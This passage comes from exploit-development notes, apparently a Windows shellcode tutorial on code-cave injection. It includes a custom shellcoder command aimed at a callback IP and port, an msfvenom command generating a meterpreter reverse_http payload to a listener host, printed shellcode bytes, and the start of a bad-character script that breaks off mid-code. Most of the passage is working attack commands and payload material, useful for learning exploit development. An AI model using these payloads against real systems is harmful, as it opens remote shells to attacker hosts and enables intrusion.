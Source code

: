     To execute shellcode we identify another issue when utilising WPM. The decoding stub added to shellcode by msfvenom will break our shellcode since the shellcode does not have write permissions within the code cave, we can instead solve this hurdle by utilizing an ROP decoder or by manually removing the bad characters. Before we remove our bad characters let’s first see what we working with. Using the python script that will generate our shellcode. The script effectively does the following:
    
     We are resolving symbols from `kernel32.dll` using the PEB method. To generate our shellcode we run the following command. 
    
    ```bash
    python3.8 epi052shellcoder.py -l 192.168.10.202 -p 8080
    ```
    
    - Transform ASM code into opcodes
    - Allocate a chunk of memory for our shellcode
    - Copy our shellcode to the allocated memory
    - Execute the shellcode from the allocated memory
    
    We can also utilise MSFvenom without specifying the use of an encoder.
    
    ```python
    msfvenom -p windows/meterpreter/reverse_http LHOST=10.211.55.3 LPORT=8080 -f python -v shellcode
    ```
    
    The above generates the following shellcode.
    
    ```bash
    shellcode =  b""
    shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2"
    shellcode += b"\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x0f"
    shellcode += b"\xb7\x4a\x26\x31\xff\x8b\x72\x28\x31\xc0\xac"
    ```
    
- Bad Char Identification
    
    Now to ensure we have no bad characters, we utilise the following script:
    
    ```python
    import re
    import os
    import sys
    import ctypes
    import struct
    import argparse
    import subprocess
    
    from keystone import Ks, KS_ARCH_X86, KS_MODE_32, KsError
    
    # Defines how far to the right the opcodes are printed
    # should be greater than the length of the longest instruction
    SPACE_WIDTH = 30
    
    ccode = [
    